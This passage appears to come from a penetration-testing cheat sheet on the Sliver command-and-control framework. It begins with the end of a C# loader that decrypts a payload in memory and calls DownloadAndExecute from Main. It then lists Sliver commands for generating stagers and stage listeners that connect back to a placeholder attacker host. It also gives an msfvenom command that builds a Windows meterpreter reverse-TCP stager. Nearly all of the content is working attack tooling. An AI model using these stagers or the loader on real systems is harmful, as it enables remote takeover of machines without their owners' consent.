```cpp

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}

```

#### Stager

```console
sliver > generate stager --lhost <LHOST> --lport <LPORT> --arch amd64 --format c --save /PATH/TO/BINARY/
```

#### Examples

```console
sliver > profiles new --mtls <LHOST> --os windows --arch amd64 --format shellcode <PROFILE>
sliver > stage-listener --url http://<LHOST>:<LPORT> --profile <PROFILE>
sliver > generate stager --lhost <LHOST> --lport <LPORT> --arch amd64 --format c --save /PATH/TO/BINARY/
```

```console
sliver > profiles new --mtls <LHOST> --os windows --arch amd64 --format shellcode <PROFILE>
sliver > stage-listener --url http://<LHOST>:<LPORT> --profile <PROFILE> --prepend-size
sliver > generate stager --lhost <LHOST> --lport <LPORT> --protocol http --format c --save /PATH/TO/BINARY/
```

#### Error: rpc error: code = Unknown desc = exit status 1 - Please make sure Metasploit framework >= v6.2 is installed and msfvenom/msfconsole are in your PATH

> https://github.com/BishopFox/sliver/issues/1580

```console
$ msfvenom LHOST=<LHOST> LPORT=<LPORT> -p windows/x64/meterpreter/reverse_tcp -f c -o /PATH/TO/BINARY/stager.c
```
